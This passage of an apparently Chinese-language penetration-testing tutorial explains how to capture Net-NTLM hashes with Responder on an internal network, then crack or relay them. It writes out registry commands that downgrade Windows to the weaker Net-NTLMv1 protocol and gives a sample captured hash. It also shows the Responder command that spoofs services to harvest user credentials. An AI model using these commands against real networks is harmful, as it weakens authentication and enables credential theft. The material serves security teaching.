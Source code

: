 1.使用Hashcat**破解Net-NTLM Hash**  
。如果是v1的话，拿到Net-NTLM就相当于拿NTLM HASH.但是在实际中遇到的例子往往不会是v1，而是v2，这个时候密码强度高一点，基本就跑不出来了  
  
2.Relay Net-NTLM Hash（也就是**中继攻击**  
）  

```
注意点：
1、自Windows Vista/Server2008开始起，微软默认使用Net-NTLMv2协议，想要降级到Net-NTLMv1，首先需要获得当前系统的管理员权限。
2、修改注册表需要管理员权限
修改注册表开启Net-NTLMv1：
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa\ /v lmcompatibilitylevel /t REG_DWORD /d 2 /f
为确保Net-NTLMv1开启成功，还需要修改两处注册表键值：
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa\MSV1_0\ /v NtlmMinClientSec /t REG_DWORD /d 536870912 /f reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa\MSV1_0\ /v RestrictSendingNTLMTraffic /t REG_DWORD /d 0 /f


Net-NTLMv1的格式为：username::hostname:LM response:NTLM response:challenge
如下，是一个 Net-NTLMv1的例子
Administrator::adexx-PC:bf3d8d0c689b18f7fce20f605af5b689dadc3623865acfad:bf3d8d0c689b18f7fce20f605af5b689dadc3623865acfad:1122334455667788




Net-NTLMv2的格式：username::domain:challenge:HMAC-MD5:blob
```

  
  
## Responder攻击方式  
  
上面已经介绍了Responder的攻击原理，下面就来实战一下。这个的前提是我们已经拿到了一台内网的机器。  
### 破解Net-NTLM Hash  
  
**启动Resonder**  
  
kail linux中默认安装了Responder，所以在kail中执行下面的命令  

```
responder -I eth0
```

  
PS：-I:指定监听的网卡  
  
可以看到下面的界面，Responder已经模拟出了各种服务  
  
![1689086088_64ad68888fa6732482c58.png!small?1689086088360](https://mmbiz.qpic.cn/sz_mmbiz_jpg/Rzo6rPw2nBy0ric0GSpFuwRB9L433AROQ8sZyfA5eqqrwjuyOOxVEMNqibVEibo9KDVIgibr8KB7KqibYM2NgzNxj7A/640?wx_fmt=jpeg&from=appmsg "")  
  
如果我们访问Responder模拟出来的服务，那么就可以记录下来用户的凭证。这里有一个问题，就是如何让用户访问这个服务？这个问题会放到最后，现在只要知道如何是通过欺骗还是其它的方式，目的就是让目标机器访问到我们模拟的服务。  
  
当我们访问http服务时，会跳出这个登录框，填写用户名为a，密码123456  
  
![1689086106_64ad689a4acb9941946ab.png!small?1689086106060](https://mmbiz.qpic.cn/sz_mmbiz_jpg/Rzo6rPw2nBy0ric0GSpFuwRB9L433AROQJZKw8b2934gibWbibBN2JiclczrrYK1ibKicWUjlswGUEz3kuw7ETgJUCQA/640?wx_fmt=jpeg&from=appmsg "")  
  